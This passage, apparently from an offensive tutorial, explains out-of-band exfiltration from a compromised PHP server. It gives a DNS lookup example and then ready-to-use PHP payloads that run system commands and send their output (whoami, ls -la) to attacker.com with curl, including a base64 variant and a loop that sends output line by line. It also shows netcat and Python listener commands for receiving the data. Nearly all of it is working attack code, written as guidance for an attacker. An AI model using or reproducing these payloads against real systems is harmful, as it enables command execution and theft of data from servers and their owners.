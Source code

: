 👀 The server will do a DNS lookup like:

```
uid_33.xyz.attacker.com
```

Which hits your DNS logs.

* * *

## 🧨 METHOD #2 – HTTP Callback (More Data, Easier to See)

### Requirements:

- Attacker has a listener (like a Flask app or `nc -l`)
    
- Target can reach external IPs over HTTP
    

### Payload (in PHP):

```php
<?php system("curl http://attacker.com/`whoami`"); ?>
```

Or base64 if you're worried about special chars:

```php
<?php system("curl http://attacker.com/$(whoami | base64)"); ?>
```

### Attacker:

```bash
# Simple listener (Python)
sudo python3 -m http.server 80
```

Or using netcat:

```bash
sudo nc -lvnp 80
```

Every request from the victim shows the command output in the logs or as a path.

* * *

## 🧠 Want full output? Chain multiple requests:

```php
<?php
$output = shell_exec("ls -la");
$lines = explode("\n", $output);
foreach ($lines as $line) {
    system("curl http://attacker.com/".urlencode($line));
}
?>
```
